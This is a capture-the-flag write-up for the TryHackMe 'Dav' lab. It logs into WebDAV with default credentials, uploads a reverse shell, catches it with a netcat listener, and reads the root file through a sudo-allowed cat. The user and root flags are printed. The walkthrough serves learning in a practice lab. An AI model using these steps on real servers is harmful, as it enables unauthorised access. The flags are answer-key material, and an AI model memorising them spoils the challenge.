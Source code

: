 +++
title = "Tryhackme Dav"
date = "2021-10-25"
author = "0xm4g1c"
cover = ""
tags = ["webdav", "cadaver"]
description = "Easy TryHackMe Challenge"
showFullContent = false
readingTime = true
+++

### Scanning
Open Ports:
- 80 > http
- 5280 > xmmp-bosh ?



### Enumeration

Web


Nothing useful in the web page as it is an Apache default page. enumerating its hidden directories we come across a `/webdav` thats prompting us for credentials we do not have.

```
/index.html
/server-status
/webdav
```
we got webdav which is also known as Web Distributed Authoring and Versioning which is used for remote authorising and stuff. Then I searched for Webdav default credentials and found this default creds `wampp : xampp`. To connect to the webserver and perform CRUD actions we use a tool called `cadaver`

```
➜  dav  cadaver http://10.10.105.112/webdav
Authentication required for webdav on server `10.10.105.112':
Username: wampp
Password:
dav:/webdav/>
dav:/webdav/>
dav:/webdav/> help
Available commands:
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 26  2019
dav:/webdav/> get passwd.dav
Downloading `/webdav/passwd.dav' to passwd.dav:
```

since we can read `passwd.dav` -- we try and upload a reverse shell,  fortunatelly we get a connection back.


### Foothold

```
➜  dav  nc -nvlp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.105.112 59642
```

upgrade shell and locate flags

```
$ SHELL=/bin/bash script -q /dev/null
www-data@ubuntu:/$ cd /home
www-data@ubuntu:/home$ ls
merlin  wampp
www-data@ubuntu:/home/wampp$ cd /home/merlin/
www-data@ubuntu:/home/merlin$ ls -la
total 44
drwxr-xr-x 4 merlin merlin 4096 Aug 25  2019 .
drwxr-xr-x 4 root   root   4096 Aug 25  2019 ..
-rw------- 1 merlin merlin 2377 Aug 25  2019 .bash_history
-rw-r--r-- 1 merlin merlin  220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 merlin merlin 3771 Aug 25  2019 .bashrc
drwx------ 2 merlin merlin 4096 Aug 25  2019 .cache
-rw------- 1 merlin merlin   68 Aug 25  2019 .lesshst
drwxrwxr-x 2 merlin merlin 4096 Aug 25  2019 .nano
-rw-r--r-- 1 merlin merlin  655 Aug 25  2019 .profile
-rw-r--r-- 1 merlin merlin    0 Aug 25  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    183 Aug 25  2019 .wget-hsts
-rw-rw-r-- 1 merlin merlin   33 Aug 25  2019 user.txt
www-data@ubuntu:/home/merlin$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```


### Privesc

Checking our privileges with sudo -l reveals that we can cat any file with sudo without password. Let’s get the root flag:

```
www-data@ubuntu:/home/merlin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```
